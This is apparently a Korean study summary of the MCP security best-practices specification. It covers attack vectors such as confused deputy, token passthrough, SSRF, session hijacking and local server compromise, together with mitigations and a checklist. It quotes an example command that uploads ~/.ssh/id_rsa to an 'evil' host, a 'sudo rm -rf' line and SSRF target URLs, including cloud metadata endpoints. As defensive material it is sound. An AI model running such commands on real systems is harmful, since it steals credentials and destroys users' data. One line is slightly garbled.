


# MCP Security Best Practices - 2025-06-18

> This document provides security considerations for the Model Context Protocol (MCP), complementing the MCP Authorization specification.

## 6가지 공격 벡터 (Spec 명시)

1. Confused Deputy Problem
2. Token Passthrough
3. Server-Side Request Forgery (SSRF)
4. Session Hijacking
5. Local MCP Server Compromise
6. Scope Minimization (poor scope design)

## 1. Confused Deputy Problem

### 취약 조건

> This attack becomes possible when all of the following conditions are present:
> - MCP proxy server uses a static client ID with a third-party authorization server
> - MCP proxy server allows MCP clients to dynamically register (each getting their own client_id)
> - The third-party authorization server sets a consent cookie after the first authorization
> - MCP proxy server does not implement proper per-client consent before forwarding to third-party authorization

### 공격 흐름

1. 정상 사용자가 MCP proxy를 통해 third-party API 인증 → 3P AS가 consent cookie를 사용자 브라우저에 설정 (static client ID 기준)
2. 공격자가 자신의 redirect_uri로 dynamic client registration
3. 공격자가 사용자에게 악성 링크 전송 (정상처럼 보이는 authorize URL)
4. 사용자 브라우저에 cookie 있음 → 3P AS가 consent screen skip
5. authorization code가 공격자 redirect_uri로 흘러감
6. 공격자가 MCP token 획득 → 사용자 사칭

### Mitigation

> MCP proxy servers MUST implement per-client consent and proper security controls.

핵심:

**Per-Client Consent Storage**:
> - Maintain a registry of approved client_id values per user
> - Check this registry before initiating the third-party authorization flow
> - Store consent decisions securely (server-side database, or server specific cookies)

**Consent UI**:
- 요청 클라이언트 이름 명시
- 요청된 third-party scope 표시
- 등록된 redirect_uri 표시
- CSRF 보호 (state parameter)
- iframe 차단 (`frame-ancestors` CSP, `X-Frame-Options: DENY`)

**Consent Cookie Security**:
- `__Host-` prefix
- `Secure`, `HttpOnly`, `SameSite=Lax`
- 암호학적 서명 또는 server-side session
- client_id에 바인딩 (단순 "사용자 동의함" 금지)

**Redirect URI**:
- 등록된 URI와 정확히 일치 (와일드카드/패턴 매칭 금지)

**OAuth State**:
- 암호학적 secure random
- consent 승인 후에만 저장 (이전엔 안 됨)
- 재사용 금지 (validate 후 삭제), 단기 만료 (~10분)

## 2. Token Passthrough

> "Token passthrough" is an anti-pattern where an MCP server accepts tokens from an MCP client without validating that the tokens were properly issued to the MCP server and passes them through to the downstream API.

### 위험

> - Security Control Circumvention: rate limiting, request validation, traffic monitoring uvchen이 audience-based가 무력화
> - Accountability and Audit Trail Issues: MCP Server가 클라이언트 식별 불가, downstream 로그가 잘못된 출처를 가리킴
> - Trust Boundary Issues: 토큰이 여러 서비스에서 검증 없이 수용되면 한 서비스 탈취가 lateral 이동
> - Future Compatibility Risk: 처음엔 pure proxy여도 나중에 보안 통제 추가하기 어려움

### Mitigation

> MCP servers MUST NOT accept any tokens that were not explicitly issued for the MCP server.

## 3. SSRF (Server-Side Request Forgery)

### 공격 표면

OAuth metadata discovery 중 fetch하는 URL들이 공격 surface:
1. `WWW-Authenticate` 헤더의 `resource_metadata` URL
2. Protected Resource Metadata의 `authorization_servers` URL
3. AS Metadata의 `token_endpoint`, `authorization_endpoint`

### 공격 패턴

> - Direct internal IP access: http://192.168.1.1/admin
> - Cloud metadata endpoints: http://169.254.169.254/ (AWS/GCP/Azure metadata)
> - Localhost services: http://localhost:6379/ (Redis 등)
> - DNS rebinding
> - Redirect chains

### Mitigation

**HTTPS 강제**: 프로덕션에서 `http://` 거부 (loopback 예외)

**Private IP 차단** (RFC 9728 Section 7.7):
- IPv4: `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`
- Loopback: `127.0.0.0/8`, `::1`
- Link-local: `169.254.0.0/16` (cloud metadata 포함)
- IPv6 private: `fc00::/7`, `fe80::/10`

> Avoid implementing IP validation manually. Attackers exploit encoding tricks (octal, hex, IPv4-mapped IPv6) that custom parsers often miss.

**Redirect 검증**: 자동 redirect 따라가지 말고 각 hop 검증.

**Egress Proxy**: Stripe Smokescreen 같은 egress proxy로 내부 destination 차단.

**DNS TOCTOU 주의**: validation과 use 사이 DNS 변경 가능 → DNS 결과 pinning 권장.

## 4. Session Hijacking

### 두 가지 시나리오

#### Session Hijack Prompt Injection



#### Session Hijack Impersonation



### Mitigation

> MCP servers that implement authorization MUST verify all inbound requests. MCP Servers MUST NOT use sessions for authentication.

> MCP servers MUST use secure, non-deterministic session IDs. Generated session IDs (e.g., UUIDs) SHOULD use secure random number generators. Avoid predictable or sequential session identifiers.

> MCP servers SHOULD bind session IDs to user-specific information. Use a key format like `<user_id>:<session_id>`.

핵심:
- 세션 ID는 인증이 아님 (인증은 토큰으로)
- session ID는 secure random
- session ID에 user ID 바인딩 → 추측해도 다른 사용자 임의 사칭 불가

## 5. Local MCP Server Compromise

### 위험

```bash
# Data exfiltration
npx malicious-package && curl -X POST -d @~/.ssh/id_rsa https://example.com/evil-location

# Privilege escalation
sudo rm -rf /important/system/files && echo "MCP server installed!"
```

> - Arbitrary code execution (with MCP client privileges)
> - No visibility into commands executed
> - Command obfuscation
> - Data exfiltration via compromised JS
> - Data loss (deletion bugs/attacks)

### Mitigation

**Pre-Configuration Consent (one-click 설치 시 필수)**:

> The MCP client MUST:
> - Show the exact command that will be executed, without truncation
> - Clearly identify it as a potentially dangerous operation
> - Require explicit user approval before proceeding
> - Allow users to cancel the configuration

**추가 Guardrails** (SHOULD):
- 위험 패턴 강조 (`sudo`, `rm -rf`, 네트워크/파일시스템 액세스)
- 민감 위치 액세스 경고 (~/, SSH keys, 시스템 디렉토리)
- 클라이언트 권한과 동일 권한 경고
- Sandbox 실행 (containers, chroot, app sandbox)
- 명시적 권한 부여 메커니즘

**Server-side Self-Defense**:
- stdio transport 사용 (MCP client만 접근 가능)
- HTTP transport 사용 시: authorization token 또는 unix domain socket

## 6. Scope Minimization

### 공격

광범위한 scope (`files:*`, `db:*`, `admin:*`)가 한 번에 부여된 토큰이 탈취되면 lateral 액세스가 즉시 가능.

### Mitigation

> Implement a progressive, least-privilege scope model:
> - Minimal initial scope set (e.g., mcp:tools-basic)
> - Incremental elevation via targeted WWW-Authenticate scope challenges
> - Down-scoping tolerance: server should accept reduced scope tokens

**Common Mistakes**:
> - Publishing all possible scopes in scopes_supported
> - Using wildcard or omnibus scopes (*, all, full-access)
> - Bundling unrelated privileges to preempt future prompts
> - Returning entire scope catalog in every challenge
> - Silent scope semantic changes without versioning
> - Treating claimed scopes in token as sufficient without server-side authorization logic

## 통합 체크리스트

### MCP Proxy Server (third-party API 연동)
- [ ] Per-client consent registry
- [ ] consent UI (CSRF, anti-clickjacking)
- [ ] consent cookie security (`__Host-`, Secure, HttpOnly, SameSite)
- [ ] state parameter (consent 후 저장, 재사용 금지)
- [ ] exact redirect_uri 매칭

### MCP Server
- [ ] 모든 inbound 요청 인증 검증
- [ ] 세션을 인증으로 사용 금지
- [ ] secure random session ID + user binding
- [ ] token audience 검증 (passthrough 금지)
- [ ] input validation, output sanitization, rate limit
- [ ] minimal scope publish

### MCP Client
- [ ] HTTPS 강제 (loopback 예외)
- [ ] Private IP 차단 (allowlist 방식 권장)
- [ ] redirect 검증
- [ ] 새 local server 1-click 설치 시 명시적 consent + 명령어 전체 표시
- [ ] sandbox 실행 권장
- [ ] PKCE 의무
- [ ] resource parameter (RFC 8707) 의무

## 참고

- 본 페이지: https://modelcontextprotocol.io/specification/2025-06-18/basic/security_best_practices
- 관련: Authorization spec, RFC 9700 (OAuth 2.0 Security BCP)
- OWASP SSRF Prevention: https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html
- Smokescreen (Stripe egress proxy): https://github.com/stripe/smokescreen
